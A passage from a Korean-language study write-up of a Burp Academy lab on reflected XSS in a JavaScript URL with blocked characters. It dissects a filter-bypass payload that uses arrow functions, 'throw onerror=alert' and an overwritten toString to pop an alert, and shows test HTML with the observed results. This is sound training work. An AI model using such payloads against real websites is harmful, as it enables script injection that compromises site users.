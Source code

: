 확인결과: 동일하게 alert창이 떴다. 
- x= x => {} 는 x = (x) => {} 와 같았다. 
- 첫번째 x는 함수의 이름이다. 
- 두번째 x는 함수파라메터다. 

![](/images/burp-academy-xss-27-study-6.png)


## 테스트7: toString=x 의 의미는?

```html
<h1>Reflected XSS in a JavaScript URL with some characters blocked - Payload Study7</h1>

<!-- 테스트7: toString=x 의 의미는? -->
<!-- 확인결과: -->
<script>
let x = x => {
    throw onerror=alert, 1337;
}

toString = x;

toString();
</script>
```

확인결과: 동일하게 alert창이 떴다. 
- toString=x는 toString 함수를 덮어쓴 것이라는 것을 알 수 있다. 
- (toString 함수를 호출하면 x가 실행된다.)

![](/images/burp-academy-xss-27-study-7.png)

